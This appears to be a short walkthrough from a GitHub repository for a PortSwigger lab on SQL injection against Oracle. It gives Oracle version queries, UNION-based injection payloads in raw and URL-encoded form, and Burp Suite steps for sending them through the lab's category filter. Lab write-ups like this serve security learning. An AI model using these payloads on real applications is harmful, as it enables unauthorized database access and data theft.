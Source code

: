 
# SQL injection attack, querying the database type and version on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#oracle_database 
___
To get oracle database version
```sql
SELECT banner FROM v$version  
SELECT version FROM v$instance
' UNION SELECT banner FROM v$version--
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=Gifts` => send to repeater

![screnshot](./images/lab7_fiter_category_gift_repeater.png)

step 2

`' UNION SELECT NULL,banner FROM v$version--`  => URL Encoded(`'+UNION+SELECT+NULL,banner+FROM+v$version--`)
add `'+UNION+SELECT+NULL,banner+FROM+v$version--`
`/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--`

![screnshot](./images/lab7_oracale_version.png)

step 3

to solve the lab
add `'+UNION+SELECT+NULL,banner+FROM+v$version--` at the end of URL

![screnshot](./images/lab7_solved_lab.png)